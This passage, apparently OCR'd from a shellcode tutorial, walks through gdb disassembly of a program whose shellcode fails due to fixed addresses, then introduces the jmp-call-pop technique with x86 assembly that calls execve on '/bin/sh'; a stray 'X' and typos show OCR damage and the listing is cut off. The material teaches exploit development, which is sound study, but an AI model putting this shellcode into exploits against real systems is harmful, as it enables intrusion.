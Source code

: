 If we then go ahead and try and execute this program, it doesn't work as
expected (or at all). To see why, we need to open it up in gdb:

``` example
(gdb) ds main
Dump of assembler code for function main:
   0x080483ed <+0>: push   ebp
   0x080483ee <+1>: mov    ebp,esp
   0x080483f0 <+3>: and    esp,0xfffffff0
   0x080483f3 <+6>: sub    esp,0x10
   0x080483f6 <+9>: mov    DWORD PTR [esp+0xc],0x80484a0
   0x080483fe <+17>:    mov    eax,DWORD PTR [esp+0xc]
   0x08048402 <+21>:    call   eax
   0x08048404 <+23>:    leave  
   0x08048405 <+24>:    ret    
End of assembler dump.
(gdb) x/10i 0x80484a0
   0x80484a0:   push   0x0
   0x80484a2:   push   0x80490a8
   0x80484a7:   mov    edx,0x0
   0x80484ac:   mov    ecx,esp
   0x80484ae:   mov    ebx,0x80490a8
   0x80484b3:   mov    eax,0xb
   0x80484b8:   int    0x80
   0x80484ba:   mov    ebx,0x0
   0x80484bf:   mov    eax,0x1
   0x80484c4:   int    0x80
```

First we see that in main we call address 0x80484a0, and if we examine
that address, we find our hello world program. But, there is a problem.
We are pushing onto the stack the address 0x80490a8 which should be our
"/bin/sh" string, but that reference is broken.

``` example
(gdb) x/s 0x80490a8
0x80490a8:  <error: Cannot access memory at address 0x80490a8>
```

Our shell code doesn't work because we have fixed references, instead we
need to do something different

## Jmp-Callback

To remove fixed references, we need to use instructions that will
calculate a reference for us. There are a few ways to do this, but we
will use the stand Jmp-Callback trick. Consider the reviced code below:

``` asm
SECTION .text       ; Code section
        global _start   ; Make label available to linker

_start:             ; Standard ld entry point
    jmp  callback

dowork:
    pop esi         ; esi now holds address of "/bin/sh
    push    0       ; args[1] - NULL
    push    esi     ; args[0] - "/bin/sh"

    mov edx,0       ; Param #3 - NULL
    mov ecx,esp     ; Param #2 - address of args array
    mov ebx,esi     ; Param #1 - "/bin/sh"
X   mov eax,0xb     ; System call number for execve
    int 0x80        ; Interrupt 80 hex - invoke system call

    mov ebx,0       ; Exit code, 0 = normal
```
